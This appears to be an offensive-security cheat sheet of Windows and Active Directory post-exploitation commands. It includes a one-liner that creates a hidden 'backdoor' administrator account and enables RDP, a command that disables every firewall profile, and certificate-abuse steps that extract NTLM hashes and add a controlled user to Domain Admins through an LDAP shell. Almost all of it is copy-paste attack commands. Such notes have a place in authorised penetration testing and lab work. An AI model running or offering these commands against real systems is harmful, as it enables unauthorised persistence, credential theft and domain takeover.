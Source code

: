 
### RDP

Add backdoored user & enable RDP
```bash
net user /add backdoor Password123! && net localgroup administrators backdoor /add & net localgroup "Remote Desktop Users" backdoor /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v backdoor /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto
```

RDP with clipboard & shared folder:
```bash
xfreerdp +clipboard /u:<username> /p:<password> /v:<hostname> /drive:/path/to/local/folder,ShareName
```


### Disable firewall

```bash
netsh advfirewall set allprofiles state off
```


### Clock skew error

```bash
sudo apt-get install rdate
sudo rdate -n <DC-IP>
```


### PFX to evil-winrm
- https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx

Get TGT: (pfx2john if necessary)
```bash
python3 gettgtpkinit.py -cert-pfx <file>.pfx -pfx-pass <pass> <domain>/<user> user.ccache -dc-ip <IP>
```

Get NTLM hash:
```bash
export KRB5CCNAME=user.ccache 

python3 getnthash.py -key <key> <domain>/<user> -dc-ip <IP>
```

Ldapshell approach:
- https://github.com/AlmondOffSec/PassTheCert/tree/main/Python
```bash
# Split pfx file
certipy-ad cert -pfx administrator.pfx -nokey -out user.crt
certipy-ad cert -pfx administrator.pfx -nocert -out user.key

# Pass the cert to get ldap shell
python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain <domain> -dc-ip <IP>

# Add controlled user to admin group
add_user_to_group <controlled-user> Administrators
add_user_to_group <controlled-user> "Domain Admins"
```
